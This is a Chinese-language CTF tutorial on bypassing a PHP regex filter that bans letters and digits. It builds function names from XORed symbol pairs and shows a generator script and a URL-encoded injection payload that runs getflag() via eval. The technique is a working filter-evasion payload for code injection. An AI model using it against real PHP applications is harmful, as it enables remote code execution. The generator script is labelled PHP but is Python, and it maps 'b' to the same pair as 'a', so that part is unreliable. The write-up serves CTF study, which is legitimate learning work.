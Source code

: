 PHP正则表达式绕过姿势之异或绕过
=================

做web题时经常为绕不过正则表达式匹配而头疼，今天学习了一种新的绕过姿势——异或绕过，可以解决大多数的正则表达式匹配题，可谓是正则表达式大杀器了。

下面我们以一道题为例给大家演示一下这种绕过方法：

以题代讲
----

![image-20211027225234082](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-14b14cfc111ea08f05837ecd683a12a154bd9230.png)

我们现在只关注题目的下半部分，我们发现code中不能出现字母和数字以及+/，过滤的条件极为苛刻，并且通过题目中给出的提示，我们要执行`eval(getflag())`,那我们就需要利用异或绕过的方法

**1.写一个符号两两异或成字母（/数字）的脚本**

例如：

```php
word = input("Input word:")
payload = """"""
for i in word:
    if i == "a":
        payload += '("!"^"@").'
    elif i == "b":
        payload += '("!"^"@").'
    elif i == "c":
        payload += '("#"^"@").'
    elif i == "d":
        payload += '("$"^"@").'
    elif i == "e":
        payload += '("%"^"@").'
    elif i == "f":
        payload += '("&"^"@").'
    elif i == "g":
        payload += '("'"^"@").'
    elif i == "h":
        payload += '("("^"@").'
    elif i == "i":
        payload += '(")"^"@").'
    elif i == "j":
        payload += '("*"^"@").'
    elif i == "k":
        payload += '("+"^"@").'
    elif i == "l":
        payload += '(","^"@").'
    elif i == "m":
        payload += '("-"^"@").'
    elif i == "n":
        payload += '("."^"@").'
    elif i == "o":
        payload += '("/"^"@").'
    elif i == "p":
        payload += '("/"^"_").'
    elif i == "q":
        payload += '("/"^"^").'
    elif i == "r":
        payload += '("."^"\\").'
    elif i == "s":
        payload += '("-"^"^").'
    elif i == "t":
        payload += '("/"^"[").'
    elif i == "u":
        payload += '("("^"]").'
    elif i == "v":
        payload += '("("^"^").'
    elif i == "w":
        payload += '("("^"_").'
    elif i == "x":
        payload += '("&"^"^").'
    elif i == "y":
        payload += '''("'"^"^").'''
    elif i == "z":
        payload += '("&"^"\\").'
    elif i == "A":
        payload += '("!"^"`").'
    elif i == "B":
        payload += '("<"^"~").'
    elif i == "C":
        payload += '("#"^"`").'
    elif i == "D":
        payload += '("$"^"`").'
    elif i == "E":
        payload += '("%"^"`").'
    elif i == "F":
        payload += '("&"^"`").'
    elif i == "G":
        payload += '(":"^"}").'
    elif i == "H":
        payload += '("("^"`").'
    elif i == "I":
        payload += '(")"^"`").'
    elif i == "J":
        payload += '("*"^"`").'
    elif i == "K":
        payload += '("+"^"`").'
    elif i == "L":
        payload += '(","^"`").'
    elif i == "M":
        payload += '("-"^"`").'
    elif i == "N":
        payload += '("."^"`").'
    elif i == "O":
        payload += '("/"^"`").'
    elif i == "P":
        payload += '("@"^"~").'
    elif i == "Q":
        payload += '("-"^"|").'
    elif i == "R":
        payload += '("."^"|").'
    elif i == "S":
        payload += '("("^"{").'
    elif i == "T":
        payload += '("("^"|").'
    elif i == "U":
        payload += '("("^"}").'
    elif i == "V":
        payload += '("("^"~").'
    elif i == "W":
        payload += '(")"^"~").'
    elif i == "X":
        payload += '("#"^"{").'
    elif i == "Y":
        payload += '("$"^"{").'
    elif i == "Z":
        payload += '("$"^"~").'
    else:
        payload += i
print("payload:\n"+payload)
```

这个示例脚本的作用就是将我们输入的一个字母字符串中每个字母字符，是通过哪两个特殊字符异或生成的过程，输出出来。

\**类似的脚本都可以在网上找到，也可以自己写*

例如：输入cat

![image-20211027230037566](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-f85411ed9c503e07c72d8ba47e8dd8ed866cd973.png)

打印出来的payload就是cat中每个字符通过特殊字符两两异或的过程，每个字符异或操作用“()”包含，并且用“."连接，这是PHP的语法要求。

这里我们需要输入getflag，得到getflag的payload：

`("'"^"@").("%"^"@").("/"^"[").("&"^"@").(","^"@").("!"^"@").("'"^"@")`

这个payload在php里就会自动运算解析成“getflag”字符串。

**&lt;u&gt;至于PHP为什么将payloads视为字符串？&lt;/u&gt;**

因为^是互斥或运算符，这意味着我们实际上正在使用二进制值。因此，PHP允许我们分解一个值为另外两个值的异或。

二进制值的XOR异或运算符将返回1，其中只有一位为1，否则返回0（0 ^ 0 = 0，0 ^ 1 = 1，1 ^ 0 = 1，1 ^ 1 = 0）。对字符使用XOR异或时，将使用其ASCII值。这些ASCII值是整数，因此我们需要将其转换为二进制值以查看实际情况。

**2.将payload手动编码**

因为有些字符在浏览器中不会被手动编码，所以这里我们必须进行手动编码，这里我使用的是利用hackbar

![image-20211028102109746](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-9661d3383bf8f026d1c8520f7640c442b74ce2ec.png)

选中异或构造的payload部分

![image-20211028102229269](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-f33f7c4821afc2d045ae099d585b5bdc48a9c7f6.png)

选择 ENCODING -》URL encode

![image-20211028102303351](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-7205ac18ff64272de7b470e8cceb9ad31b268b51.png)

效果如下图所示：

![image-20211028102426400](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-d756af84b47f26097c578da75d42f7012c721dcb.png)

**3.将payload赋值给一个变量**

这一步是必须的，因为如果直接让 `code = (手动编码过的)payload();`是无法执行的，要让`code = 一个变量 = (手动编码过的)payload;变量名();` 因为先要让一个变量保存payload的异或结果，然后执行这个变量，才能执行我们想要的函数。

**&lt;u&gt;并且这里有一个关键的细节:&lt;/u&gt;**

因为前面的正则表达式ban掉了所有字母和数字，那么我们要用来储存异或构造的运算结果的变量名的选择就很叼钻了，我们来看一下PHP中的变量命名规则：

![image-20211028105057205](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-54f7810a3732fd47a5f41596734027218e8c3a04.png)

初看命名规则我们可能会觉得字母和数字都被ban了，我们肯定无法命名出一个变量了，但是细心的小伙伴可能会发现，还有“\_"（下划线）能用，所以我们构造的变量名就是”\_“，即变量表示为`$_`。

*从这里我们也可以发现如果“\_"（下划线）也被ban了的话，我们也就不能使用异或构造了，因为一定需要有一个变量来储存异或构造的运算结果的。*

所以最终的完整payload为：

`?code=$_=(%22'%22%5E%22%40%22).(%22%25%22%5E%22%40%22).(%22%2F%22%5E%22%5B%22).(%22%26%22%5E%22%40%22).(%22%2C%22%5E%22%40%22).(%22!%22%5E%22%40%22).(%22'%22%5E%22%40%22);$_();`

**4.执行完整payload**

![image-20211028110158545](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-69a1c52c3a6fe5f176a14878cc051c7c5d50df41.png)

最后加上本题的上半部分post传参+数组绕过md5比较就能得到完整的flag了。

总结
--

异或绕过不仅可以应对苛刻的正则表达式匹配，还可以应用于很多不同的需要绕过情况中。具体在什么时候使用异或绕过呢？我个人认为是在需要的字母或数字被ban时，就可以拿出这门大杀器了，但是当“\_"(下划线）也被ban时就不要使用了哦。